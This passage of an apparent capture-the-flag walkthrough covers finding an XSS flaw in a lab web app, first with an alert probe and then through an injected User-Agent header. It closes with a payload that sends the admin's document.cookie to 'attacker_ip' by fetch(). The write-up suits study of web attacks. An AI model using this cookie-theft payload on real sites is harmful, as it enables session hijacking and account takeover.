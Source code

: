 ```terminal
200      GET       96l      259w     2799c http://10.129.230.172:5000/                                                
500      GET        5l       37w      265c http://10.129.230.172:5000/dashboard
[####################] - 3m     20478/20478   0s      found:3       errors:0      
[####################] - 3m     20477/20477   112/s   http://10.129.230.172:5000/                               
```

We found the `support` page and it's a 200, and we also found `dashboard` but we get 500 code.

Let's check the support page.

![support](2.png)

I filled the form and submitted it but I got nothing.

Next thing I tried is a `XSS` attack using the js alert payload `<script> alert(1) </script>`

![alert](3.png)

I submitted the request and got this:

![hacking detected](4.png)

The website detected the script, out IP is flagged and a report with our browser information is sent to the administrator.

Here we see the headers of our request. Let's test for another `XSS`, this time we put the payload in one of the headers.

We use the same data in picture 3 but we intercept the request with burp.

![headers xss](5.png)

We modify one of the headers, in my case it's `user-agent`.

![xss found](6.png)

We got the alert and confirmed the XSS vulnerability.

### XSS

Here are the information we have:

- The website uses a cookie called `id_admin`
- There is a `dashboard` page that we can't access
- A report is sent to administrator when we submit suspicious message
- The report page is vulnerable to XSS

You see where we are going?

Our next step here is get the administrator's cookie using the XSS vulnerability. The payload we can use is the following:

```js
<script>fetch('http://attacker_ip/'+document.cookie)</script>
```

